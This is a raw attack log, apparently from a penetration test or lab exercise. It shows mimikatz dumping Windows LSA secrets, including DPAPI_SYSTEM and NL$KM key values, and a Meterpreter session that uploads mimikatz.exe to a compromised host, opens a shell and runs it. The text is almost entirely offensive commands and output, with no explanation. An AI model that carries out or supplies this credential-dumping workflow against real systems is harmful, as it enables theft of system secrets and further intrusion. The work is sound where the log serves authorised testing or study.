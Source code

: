 Policy subsystem is : 1.18
LSA Key(s) : 1, default {47980b9c-8bd1-89c9-bfb5-0c4fca25e625}
  [00] {47980b9c-8bd1-89c9-bfb5-0c4fca25e625} 247e7be223db5e50291fc0fcec276ff8236c32a8a6183c5a0d0b6b044590ce06

Secret  : DPAPI_SYSTEM
cur/hex : 01 00 00 00 34 5e 65 80 f9 04 a4 8c a5 0e 6c 74 6c d2 c3 b8 8e 7a ca c3 a3 3b 0e 6e 0a 64 f3 12 fc c7 92 67 a3 2f d5 d1 e4 41 33 ac 
    full: 345e6580f904a48ca50e6c746cd2c3b88e7acac3a33b0e6e0a64f312fcc79267a32fd5d1e44133ac
    m/u : 345e6580f904a48ca50e6c746cd2c3b88e7acac3 / a33b0e6e0a64f312fcc79267a32fd5d1e44133ac
old/hex : 01 00 00 00 c1 3a 28 e3 94 7b 64 5d 94 29 b4 c9 1c 9b 0c b1 b6 5a aa 2c 34 4d ee ed 86 74 0f 12 25 37 8c 38 69 b3 b4 53 b6 37 86 44 
    full: c13a28e3947b645d9429b4c91c9b0cb1b65aaa2c344deeed86740f1225378c3869b3b453b6378644
    m/u : c13a28e3947b645d9429b4c91c9b0cb1b65aaa2c / 344deeed86740f1225378c3869b3b453b6378644

Secret  : NL$KM
cur/hex : 8d d2 8e 67 54 58 89 b1 c9 53 b9 5b 46 a2 b3 66 d4 3b 95 80 92 7d 67 78 b7 1d f9 2d a5 55 b7 a3 61 aa 4d 86 95 85 43 86 e3 12 9e c4 91 cf 9a 5b d8 bb 0d ae fa d3 41 e0 d8 66 3d 19 75 a2 d1 b2 
old/hex : 8d d2 8e 67 54 58 89 b1 c9 53 b9 5b 46 a2 b3 66 d4 3b 95 80 92 7d 67 78 b7 1d f9 2d a5 55 b7 a3 61 aa 4d 86 95 85 43 86 e3 12 9e c4 91 cf 9a 5b d8 bb 0d ae fa d3 41 e0 d8 66 3d 19 75 a2 d1 b2 


meterpreter > 

meterpreter > pwd
C:\Windows\system32
meterpreter > cd C:\\
meterpreter > mkdir Temp
Creating directory: Temp
meterpreter > cd temp
meterpreter > upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe
[*] uploading  : /usr/share/windows-resources/mimikatz/x64/mimikatz.exe -> mimikatz.exe
[*] Uploaded 1.25 MiB of 1.25 MiB (100.0%): /usr/share/windows-resources/mimikatz/x64/mimikatz.exe -> mimikatz.exe
[*] uploaded   : /usr/share/windows-resources/mimikatz/x64/mimikatz.exe -> mimikatz.exe
meterpreter > shell
Process 5896 created.
Channel 2 created.
Microsoft Windows [Version 10.0.17763.1457]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\temp>.\mimikatz.exe
.\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 18 2020 19:18:29
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/
